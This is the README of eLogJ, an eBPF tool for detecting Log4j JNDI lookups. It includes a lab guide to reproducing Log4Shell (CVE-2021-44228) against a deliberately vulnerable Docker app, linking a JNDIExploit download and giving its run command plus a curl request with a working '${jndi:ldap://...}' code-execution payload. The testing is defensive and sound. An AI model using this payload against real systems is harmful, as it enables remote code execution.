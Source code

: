 <img src="https://github.com/WillGAndre/eLogJ/blob/main/elogj.png" width="250">

# eLogJ
extended Log4j observability tool used to detect and prevent malicious JNDI (/LDAP) lookups. Currently tested in a controlled environment.<br>
- Developed with aya (https://github.com/aya-rs/aya) a Rust eBPF library.<br>
- Use in tandem with https://github.com/christophetd/log4shell-vulnerable-app (baseline).

0.1.2: Rulesets added as static file (logger-info).

### Dependencies
rust stable or nightly toolchain: `rustup install stable` / `rustup install nightly`
<br>
bpf-linker: `cargo install bpf-linker`

### Build Userspace:
> cargo build

### Build Kernelspace:
> cargo xtask build-ebpf

### Run:
> cargo xtask run

### Verbose:
> RUST_LOG=info cargo xtask run

<br>

## CVE-2021-44228

The repo (https://github.com/christophetd/log4shell-vulnerable-app) contains a Spring Boot web application which is vulnerable to the Log4Shell exploit. In order to boot this vulnerable instance, the following dependencies will be needed:<br>
## Spring Boot (Docker):
<a href="https://github.com/christophetd/log4shell-vulnerable-app/blob/main/Dockerfile">Dockerfile</a><br>
    - Log4j 2.14.1 <br>
    - JDK 1.8.0_181 <br>

## Malicious LDAP server:
This server will essentially receive LDAP requests triggered by the JNDI lookup in Spring Boot (Log4j) and promptly respond. The response is a second-stage payload that actually leads to RCE, since any type of action can be compiled as a (malicious) java class. JNDI lookups are triggered by the Log4j logger when it detects an explicit JNDI lookup command when logging occurs (`${jndi:`). Note that the type of transport protocol may vary (LDAP, RMI, ..).
>>  JNDI exploit server (baseline): <a href="http://web.archive.org/web/20211211031401/https://objects.githubusercontent.com/github-production-release-asset-2e65be/314785055/a6f05000-9563-11eb-9a61-aa85eca37c76?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAIWNJYAX4CSVEH53A%2F20211211%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20211211T031401Z&X-Amz-Expires=300&X-Amz-Signature=140e57e1827c6f42275aa5cb706fdff6dc6a02f69ef41e73769ea749db582ce0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=314785055&response-content-disposition=attachment%3B%20filename%3DJNDIExploit.v1.2.zip&response-content-type=application%2Foctet-stream">JNDIExploit</a><br>
>>        Other JNDI exploits will also be explored soon.

## Explotation Steps:
### Spring Boot (Log4j) Instance:<br>
> docker run --name vulnerable-app --rm -p 8080:8080 ghcr.io/christophetd/log4shell-vulnerable-app@sha256:6f88430688108e512f7405ac3c73d47f5c370780b94182854ea2cddc6bd59929
### JNDI Server:<br>
> java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888
### Curl log:<br>
> curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'
### Verify code execution: <br>
> docker exec vulnerable-app ls /tmp

Note: 
 Heavily WIP, deps/wiki/docs to be added soon.
